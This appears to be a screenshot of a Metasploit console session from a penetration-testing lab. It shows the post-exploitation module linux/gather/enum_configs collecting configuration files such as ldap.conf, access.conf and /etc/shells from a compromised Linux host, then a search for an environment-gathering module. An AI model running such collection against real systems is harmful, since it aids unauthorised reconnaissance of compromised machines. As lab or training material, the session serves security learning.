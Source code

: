 ```
```

```
msf5 post(linux/gather/enum_configs) > loot

Loot
====

host          service  type             name                  content     info  path
----          -------  ----             ----                  -------     ----  ----
192.111.31.3           linux.enum.conf  shells                text/plain        /root/.msf4/loot/20230310151618_Linux_PE_192.111.31.3_linux.enum.conf_298702.
txt
192.111.31.3           linux.enum.conf  sepermit.conf         text/plain        /root/.msf4/loot/20230310151618_Linux_PE_192.111.31.3_linux.enum.conf_528778.
txt
192.111.31.3           linux.enum.conf  ca-certificates.conf  text/plain        /root/.msf4/loot/20230310151618_Linux_PE_192.111.31.3_linux.enum.conf_551658.
txt
192.111.31.3           linux.enum.conf  access.conf           text/plain        /root/.msf4/loot/20230310151618_Linux_PE_192.111.31.3_linux.enum.conf_794033.
txt
192.111.31.3           linux.enum.conf  rpc                   text/plain        /root/.msf4/loot/20230310151618_Linux_PE_192.111.31.3_linux.enum.conf_566992.
txt
192.111.31.3           linux.enum.conf  ldap.conf             text/plain        /root/.msf4/loot/20230310151618_Linux_PE_192.111.31.3_linux.enum.conf_240863.
txt
192.111.31.3           linux.enum.conf  sysctl.conf           text/plain        /root/.msf4/loot/20230310151618_Linux_PE_192.111.31.3_linux.enum.conf_361315.
txt
```

```
msf5 post(linux/gather/enum_configs) > cat /root/.msf4/loot/20230310151618_Linux_PE_192.111.31.3_linux.enum.conf_298702.txt
[*] exec: cat /root/.msf4/loot/20230310151618_Linux_PE_192.111.31.3_linux.enum.conf_298702.txt

# /etc/shells: valid login shells
/bin/sh
/bin/dash
/bin/bash
/bin/rbash
```

```
msf5 post(linux/gather/enum_configs) > search env platform:linux
Matching Modules
================

   #   Name                                                  Disclosure Date  Rank       Check  Description
   -   ----                                                  ---------------  ----       -----  -----------
   23  post/multi/gather/env                                                  normal     No     Multi Gather Generic Operating System Environment Settings
```
